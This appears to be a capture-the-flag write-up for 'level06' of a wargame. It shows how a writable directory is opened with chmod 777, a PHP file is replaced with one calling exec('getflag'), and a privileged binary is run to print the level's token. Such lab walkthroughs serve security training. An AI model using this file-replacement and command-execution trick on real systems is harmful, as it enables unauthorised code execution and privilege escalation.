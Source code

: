 # level06 solve

To begin, when we get logged and trying to see if we got the file we can see we have two files

```
$ ls
> level06
> level06.php
```

So we decide to run the binary level06 and seeing he us the level06.php, after see that we decide to try to change the php file for doing a php request launching the getflag, and we found <a href="https://www.php.net/manual/fr/function.exec.php">that</a>.

result:

```
<?php
	echo exec('getflag');
?>
```

After modifying the php file with an exec command, we need to get the right to modify files on the repository

```
$ chmod 777 .
```

And after that, we just need to move the php file, because it's easier, we going to prefer using an echo and mv on the tmp folder between than use move with the scp command but in case...

scp

```
$ scp -P 4242 level06/Ressources/level06.php level06@ip:level06.php
```

bash

```
$ chmod 777 . ; echo "<?php echo exec('getflag'); ?>" > /tmp/level06.php ; mv /tmp/level06.php .
```

trying...

```
$ ./level06
> Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level05">previous level</a> - <a href="../../level07">next level</a>
